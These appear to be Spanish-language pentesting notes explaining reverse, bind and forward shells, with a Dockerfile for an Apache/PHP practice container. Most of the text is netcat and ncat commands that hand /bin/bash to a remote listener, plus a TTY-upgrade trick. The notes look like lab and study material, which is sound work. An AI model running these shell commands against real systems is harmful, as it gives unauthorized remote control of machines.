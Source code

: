 nc -nlvp 443


### Cliente 

nc -e /bin/bash ip puertp

ncat -e /bin/bash 172.17.0.1 443


### Obtener una mejor shell 

script /dev/null -c bash


- Bind Shell: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.



### Cliente 

nc -nlvp 443 -e /bin/bash

### Atacante

nc ip puerto



- Forward shell

### Obtener una mejor shell 

script /dev/null -c bash



### Ejemplo

```bash
nano Dockerfile
```


```bash
FROM ubuntu:latest
ENV DEBIAN_FRONTEND=noninteractive
RUN apt update && apt install -y apache2 \
    php
EXPOSE 80
ENTRYPOINT service apache2 start & /bin/bash
```


docker build -t image_name .

